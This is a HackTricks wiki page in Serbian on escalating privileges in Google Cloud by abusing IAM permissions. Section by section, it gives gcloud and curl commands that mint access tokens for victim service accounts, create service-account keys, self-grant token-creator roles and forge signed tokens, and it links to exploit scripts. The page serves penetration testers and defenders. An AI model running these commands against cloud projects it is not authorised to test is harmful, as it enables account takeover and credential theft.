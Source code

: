 # GCP - IAM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## IAM

Pronađite više informacija o IAM-u u:

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

Napadač sa pomenutim dozvolama će moći da ažurira ulogu dodeljenu vama i da vam dodeli dodatne dozvole za druge resurse kao što su:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
Možete pronaći skriptu za automatizaciju **kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde** i python skriptu za zloupotrebu ovog privilegija [**ovde**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py). Za više informacija pogledajte [**originalno istraživanje**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

Napadač sa pomenutim dozvolama će moći da **zatraži pristupni token koji pripada Servisnom Nalog**, tako da je moguće zatražiti pristupni token Servisnog Naloga sa više privilegija nego što su naše.
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
Možete pronaći skriptu za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) i python skriptu za zloupotrebu ove privilegije [**ovde**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py). Za više informacija proverite [**originalno istraživanje**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccountKeys.create`

Napadač sa pomenutim dozvolama će moći da **kreira ključ koji upravlja korisnikom za Service Account**, što će nam omogućiti pristup GCP kao taj Service Account.
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
Možete pronaći skriptu za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh) i python skriptu za zloupotrebu ove privilegije [**ovde**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py). Za više informacija pogledajte [**originalno istraživanje**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

Napomena: **`iam.serviceAccountKeys.update` neće raditi za modifikaciju ključa** SA jer su za to potrebne i dozvole `iam.serviceAccountKeys.create`.

### `iam.serviceAccounts.implicitDelegation`

Ako imate **`iam.serviceAccounts.implicitDelegation`** dozvolu na Servisnom Računu koji ima **`iam.serviceAccounts.getAccessToken`** dozvolu na trećem Servisnom Računu, tada možete koristiti implicitDelegation da **kreirate token za taj treći Servisni Račun**. Evo dijagrama koji pomaže u objašnjenju.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

Napomena: prema [**dokumentaciji**](https://cloud.google.com/iam/docs/understanding-service-accounts), delegacija `gcloud` funkcioniše samo za generisanje tokena koristeći [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken) metodu. Tako da ovde imate kako da dobijete token koristeći API direktno:
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
Možete pronaći skriptu za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) i python skriptu za zloupotrebu ovog privilegija [**ovde**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). Za više informacija pogledajte [**originalno istraživanje**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

Napadač sa pomenutim dozvolama će moći da **potpiše proizvoljne payload-ove u GCP**. Tako će biti moguće **napraviti nepotpisani JWT SA i zatim ga poslati kao blob da bi dobili JWT potpisan** od SA koji ciljate. Za više informacija [**pročitajte ovo**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

Možete pronaći skriptu za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) i python skriptu za zloupotrebu ovog privilegija [**ovde**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) i [**ovde**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). Za više informacija pogledajte [**originalno istraživanje**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

Napadač sa pomenutim dozvolama će moći da **potpiše dobro oblikovane JSON web tokene (JWT-ove)**. Razlika u odnosu na prethodnu metodu je u tome što **umesto da nateramo google da potpiše blob koji sadrži JWT, koristimo metodu signJWT koja već očekuje JWT**. Ovo olakšava korišćenje, ali možete potpisivati samo JWT umesto bilo kojih bajtova.

Možete pronaći skriptu za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) i python skriptu za zloupotrebu ovog privilegija [**ovde**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). Za više informacija pogledajte [**originalno istraživanje**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

Napadač sa pomenutim dozvolama će moći da **doda IAM politike servisnim nalozima**. Možete to zloupotrebiti da **dodelite sebi** dozvole koje su vam potrebne da biste se pretvarali da ste servisni nalog. U sledećem primeru dodeljujemo sebi ulogu `roles/iam.serviceAccountTokenCreator` nad interesantnim SA:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
Možete pronaći skriptu za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

**iam.serviceAccounts.actAs dozvola** je poput **iam:PassRole dozvole iz AWS-a**. Ključna je za izvršavanje zadataka, kao što je pokretanje Compute Engine instance, jer omogućava sposobnost "delovanja kao" servisni nalog, osiguravajući sigurnu upravljanje dozvolama. Bez ovoga, korisnici bi mogli dobiti neprimeren pristup. Pored toga, eksploatacija **iam.serviceAccounts.actAs** uključuje različite metode, od kojih svaka zahteva skup dozvola, za razliku od drugih metoda koje zahtevaju samo jednu.

#### Impersonacija servisnog naloga <a href="#service-account-impersonation" id="service-account-impersonation"></a>

Impersonacija servisnog naloga može biti veoma korisna za **dobijanje novih i boljih privilegija**. Postoje tri načina na koja možete [impersonirati drugi servisni nalog](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating\_a\_service\_account):

* Autentifikacija **koristeći RSA privatne ključeve** (obrađeno iznad)
* Autorizacija **koristeći Cloud IAM politike** (obrađeno ovde)
* **Implementacija poslova na GCP uslugama** (više primenljivo na kompromitaciju korisničkog naloga)

### `iam.serviceAccounts.getOpenIdToken`

Napadač sa pomenutim dozvolama će moći da generiše OpenID JWT. Ovi se koriste za potvrdu identiteta i ne nose nužno nikakvu implicitnu autorizaciju prema resursu.

Prema ovom [**zanimljivom postu**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b), potrebno je naznačiti publiku (uslugu gde želite da koristite token za autentifikaciju) i dobićete JWT potpisan od strane google-a koji ukazuje na servisni nalog i publiku JWT-a.

Možete generisati OpenIDToken (ako imate pristup) sa:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
Тада можете једноставно да га користите за приступ услузи са:
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
Neke usluge koje podržavaju autentifikaciju putem ovakvih tokena su:

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (ako koristite Google OIDC)

Možete pronaći primer kako da kreirate OpenID token u ime servisnog naloga [**ovde**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py).

## Reference

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
